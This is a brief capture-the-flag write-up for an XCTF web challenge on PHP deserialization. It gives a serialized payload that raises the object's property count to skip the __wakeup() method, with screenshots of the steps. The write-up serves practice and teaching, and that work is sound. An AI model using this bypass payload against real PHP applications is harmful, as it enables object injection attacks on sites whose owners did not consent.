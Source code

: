 # Challenge: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4821&page=1

<img width="251" alt="class xctf{" src="https://user-images.githubusercontent.com/48151790/126886407-0a5cb22f-2aad-40b3-8740-a0ff92c49081.png">

. Hint: `?code=object serialize`

. Create serialize of object xctf

<img width="725" alt="Screen Shot 2021-07-25 at 10 14 34" src="https://user-images.githubusercontent.com/48151790/126886492-bf176acd-b496-4d5a-a2a1-e1f709ea2b27.png">

=> object serialize: `O:4:"xctf":1:{s:4:"flag";s:3:"111";`

. Function __wakeup() of class xctf will run before object unserialize

=> Payload: `O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

<img width="766" alt="Screen Shot 2021-07-25 at 10 20 51" src="https://user-images.githubusercontent.com/48151790/126886593-2d2cb901-5ab9-4312-a2e2-cb5a26595483.png">
